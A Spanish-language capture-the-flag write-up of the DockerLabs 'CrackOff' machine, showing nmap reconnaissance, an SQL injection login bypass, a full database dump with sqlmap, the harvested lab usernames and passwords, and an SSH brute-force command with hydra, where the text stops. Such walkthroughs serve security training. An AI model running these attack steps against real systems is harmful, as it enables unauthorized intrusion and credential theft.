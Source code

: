 # MACHINE CRACKOFF

## INFORMACIÓN GENERAL

- **Plataforma**: DockerLabs
- **Sistema Operativo**: Linux
- **Dificultad**: Dificl

![machine_crackoff_dl]()

## DESPLIEGUE
```python
bash autodeploy.sh crackoff.tar
```
![despliegue](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/findyourstyle/DESPLIEGUE.png)


## RECONOCIMIENTO
Para poder ver puertos abiertos y las versiones de los servicios que estan corriendo por detrás
```ruby
nmap -p- --open -sS --min-rate 5000 -vvvv -n -Pn -sCV 172.17.0.2
```
```ruby
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3d:fc:bd:41:cb:81:e8:cd:a2:58:5a:78:68:2b:a3:04 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNuJZkQSLJmcZX14n7uNiUBZ/Li3VabQ8/HRKIsPXb/9CZmDhjdBLLRgvjL9NpgVgU2gGEFTSkljIn0SGcgaoIY=
|   256 d8:5a:63:27:60:35:20:30:a9:ec:25:36:9e:50:06:8d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINZLckodawlUx1KSiq+zaADv0w1jbQwrlE98GYdEY/jH
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: CrackOff - Bienvenido
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Podemos observar que tenemos 2 puertos abiertos:
- **80 - HTTP** : Servicio Web
- **22 - SSH** : Servicio usado mayormente para autenticación remota

A partir de estos 2 puertos podemos inciar una busqueda de vectores de ataques, primero vamos a echarle un vistazo al puerto `HTTP - 80` 

![web_port80] 

Podemos observar un Inicio de Sesión lo que indica que podemos probar ataques por esa manera, pero para tener la mayor informacion posible vamos a hacer un escaneo de directorios ocultos con `Gobuster`

![Gobuster_enumeration]()

Podemos observar que tenemos unos cuantos directorios, aprovecho que le den una mirada a una tool que eh creado en bash para poder ver que contiene cada ruta en forma de screenshoots

Link: [DirbScreen](https://github.com/Harley25-sys/dirb_screen)

Esta herramienta lo que hace es visita a cada una de las rutas encontradas, accede a ella y les toma una captura de pantalla a lo que se muestra de primera y lo almacena en una carpetilla, ideal para cuanto nos topamos con
una gran cantidad de directorios para solo hacer una visualizacion rápida de cada screenshot y visitar los sitios potenciales a vulnerabilidades

Le aplicamos la limpieza necesaria de tal manera que solo queden las rutas:
![result_limpios]()

Ahora ejecutamos el script y le pasamos los resultados limpios:
![dirb_screen]()

Una vez terminada la ejecucion podemos ver las capturas almacenadas en las carpetas 
![resultados_dirbscreen]()
Como podemos ver, son capturas de pantalla de cada ruta y podemos visualizarlas 1 a 1, para este caso nuestro vector de ataque es el `Login`

![crack_off_login]()

Entonces como no tenemos muchas pistas, intentamos hacer una `sqli` muy basica para comprobar si es vulnerable a un Inyección
```ruby
username: 'or 1=1-- -
password: 'or 1=1-- -
```
![sqli_login]()

Y si hacemos esto, podemos ganar acceso al panel de `administrador`, entonces podemos hacer `sqli` para poder dumpear la base de datos que se encuentra por detrás
![panel_admin]()

Vamos a recurrir a `CAIDO` para capturar esta request y utilizarlo para dumpear la base de datos con `sqlmap`
Este comando automatiza toda la enumeracion de BD, Tablas, Columnas y volca toda la base de datos vulnerable
```ruby
sqlmap -r req --dump -batch --level 5 -risk 3a
```
![sql_dump]()

Como observamos una cantidad de `usuarios` con cierta cantidad de `contraseñas`, se nos viene a la mente probar `brute force` pero como no tenemos otro vector de ataque en `web` lo haremos en el otro puerto que tenemos abierto 
que es el `ssh`

Usuarios
```
rejetto
tomitoma
alice
whoami
pip
rutus
jazmin
rosa
mario
veryhardpassword
root
admin
```

Contraseñas
```
password123
alicelaultramejor
passwordinhack
supersecurepasswordultra
estrella_big
colorcolorido
ultramegaverypasswordhack
unbreakroot
happypassword
admin12345password
carsisgood
badmenandwomen
```

Ahora probamos la fuerza bruta por el puerto ssh:
```python
hydra -L users.txt -P passwords.txt 172.17.0.2 ssh
```

![hydra]()
